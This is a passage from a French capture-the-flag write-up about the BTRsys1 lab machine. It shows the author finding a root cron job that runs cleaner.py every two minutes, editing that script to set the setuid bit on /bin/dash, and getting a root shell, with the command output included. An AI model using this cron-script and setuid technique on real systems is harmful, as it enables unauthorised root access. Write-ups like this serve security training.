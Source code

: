 On pourrait aussi regarder l'autre fichier remonté par find qui est explicite :

```console
www-data@BTRsys1:/home/troll$ cat /var/log/cronlog
*/2 * * * * cleaner.py
```

J'ai donc édité le script Python pour qu'il mette le bit setuid sur `dash` et attendu un peu :

```
www-data@BTRsys1:/home/troll$ ls -al /bin/dash
-rwsr-xr-x 1 root root 110K Feb 19  2014 /bin/dash
www-data@BTRsys1:/home/troll$ dash
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```

Pas de flag sur le système, mais on a bien les privilèges root.

